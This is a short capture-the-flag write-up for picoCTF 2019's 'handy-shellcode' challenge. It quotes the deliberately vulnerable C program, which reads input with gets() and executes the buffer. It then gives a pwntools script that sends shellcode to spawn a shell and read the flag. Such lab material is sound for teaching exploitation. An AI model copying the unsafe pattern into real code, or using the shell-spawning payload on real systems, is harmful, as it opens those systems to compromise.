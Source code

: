 # Handy Shell Code Pico 2019

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

```
This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server.
```

## Open Source Data gathering
- [Problem from last year](https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-2)

## Solve

Took last years solve and modified code to work for this year. 

Code to solve problem must be exicuted from the folder containing vuln

```python
from pwn import *

sh = process('./vuln')

sh.sendline(asm(shellcraft.i386.linux.sh()))
sh.interactive()
```

